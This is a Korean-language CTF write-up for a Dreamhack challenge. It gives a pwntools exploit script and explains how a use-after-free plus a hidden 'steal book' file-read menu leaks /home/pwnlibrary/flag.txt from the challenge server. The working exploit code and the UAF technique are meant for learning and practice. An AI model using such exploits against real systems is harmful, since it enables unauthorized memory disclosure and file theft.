 #system-hacking 
# Payload
```python
from pwn import *

# context.log_level = 'debug'
p = remote(host = "host3.dreamhack.games", port=21401)

# borrow a book, index 1
p.recvuntil(b'[+] Select menu : ')
payload = b'1' # borrow a book
p.sendline(payload)
p.recvuntil(b'[+] what book do you want to borrow? : ')
payload = b'1' # theori theory
p.sendline(payload)

# return book, index 3
p.recvuntil(b'[+] Select menu : ')
payload = b'3'
p.sendline(payload)
p.recvuntil(b'[*] lastest book returned!')

# steal book, code 275, path : /home/pwnlibrary/flag.txt
p.recvuntil(b'[+] Select menu : ')
payload = b'275'
p.sendline(payload)
p.recvuntil(b'[+] whatever, where is the book? : ')
payload = b'/home/pwnlibrary/flag.txt'
p.sendline(payload)
p.recvuntil(b'[*] how many pages?(MAX 400) : ')
p.sendline(b'256')
p.recvuntil(b'[*] Oops.. cops take your book..')

# read book, use after free 
p.recvuntil(b'[+] Select menu : ')
payload = b'2'
p.sendline(payload)
payload = b'0'
p.sendline(payload)

p.interactive()
```
# 검색 키워드
- Use After Free
- (기능이지만) 임의 파일 읽기
# 해설
## 배경지식
- Use After Free
	- free만 해주면 해당 메모리는 재사용이 가능할 지 몰라도
	- 해당 위치를 가리키던 포인터 변수까지 null로 초기화를 해 줘야 UAF 취약점에 노출되지 않을 수 있다.
- malloc 특성
	- 메모리 할당을 할 때, 예를 들어 0x200 만큼의 메모리가 할당되었다가 반환되고 나서, 다시 0x200만큼 할당을 하면, 새로 할당된 메모리 주소는 이전에 할당되었던 메모리 주소와 일치한다.
	- 할당받으려는 메모리 사이즈가 일치해야 같은 메모리 주소를 받아올 수 있다.
## 코드분석
- 핵심 코드
	- return_book 함수
		- 책을 반납할 때 listbook\[인덱스].content 포인터 주소에 대해 free를 수행하지만, 포인터가 가지고 있는 주소는 초기화 하지 않는다.
			- -> UAF 취약점 발현
	- steal_book 함수
		- 프로그램 실행 시 표시되지는 않지만, 코드상에 있는 275(0x113)를 입력하면 책 훔치기 메뉴를 사용할 수 있다.
		- 최대 400바이트(0x190)까지, 입력한 경로에 있는 파일을 읽어들여 secretbook.content에 내용을 복사한다.
		- 다만 값을 복사하고 내용을 알려주지는 않기 때문에 복사된 곳의 영역을 읽을 방법을 찾아야 한다.
## 익스플로잇 과정
- 우선 책을 한 권 빌린다.
	- 이 때 1번 책, `theori theory` 책을 빌려야 한다.
	- 나머지 2, 3번 책으로는 익스플로잇 할 수 없다.
	- 왜냐하면 borrow_book 함수에서 2번과 3번을 빌릴 때, malloc으로 메모리를 할당받는데, 각각 할당받는 사이즈가 0x200, 0x300으로, steal_book 함수에서 pages 변수에 입력한 만큼 메모리를 할당받는데, 이것은 112번째 줄에서 0x190보다 작도록 강제되기 때문이다. 따라서 이보다 작은 책은 1번만 해당한다.
- 그리고 책을 반납한다.
	- 그러면 0번 인덱스의 책 제목은 returned로 변경되고, contents를 가리키던 위치의 메모리는 free 되지만, 포인터 변수의 주소 값은 그대로 유지되기에, 해당 포인터를 참조하게 되면 free된 메모리라고 해도 내용을 읽어 올 수 있다.
- 이제 책을 훔친다.
	- 메뉴에서 275를 입력한다.
	- 경로를 입력해야 하는데, 문제 지문에서 나와 있듯이, 플래그 경로는 `/home/pwnlibrary/flag.txt` 이다. 이 경로를 입력해 준다.
	- 읽어올 페이지를 설정해야 한다.
		- 이것은 free된 메모리와 동일해야 한다.
		- 약간 작아도 되긴 하던데.. 
		- 암튼 256으로 해 주자.
		- 그러면 메모리 상에 해당 플래그 내용이 fopen 함수를 통해 복사가 된다.
		- 다만 내용을 보여주지는 않는다.
		- 그런데 이때 내용이 복사된 메모리 주소는, 위에서 책을 빌렸을 때 content의 영역과 동일하다. 그리고 이 주소는 아직 0번 인덱스의 책을 읽어 오는 것으로 접근이 가능하다.
- 반납된 책을 아무튼 읽어 본다.
	- 메뉴에서 read book, 2번을 고르고,
	- 0번 인덱스의 책 내용을 본다.
	- free 된 메모리이지만 포인터 변수가 가리키는 값은 변하지 않았기 때문에, 플래그가 복사된 메모리 영역을 읽어 올 수 있다.
- 익스플로잇 실행 결과![[Pasted image 20241120161232.png]]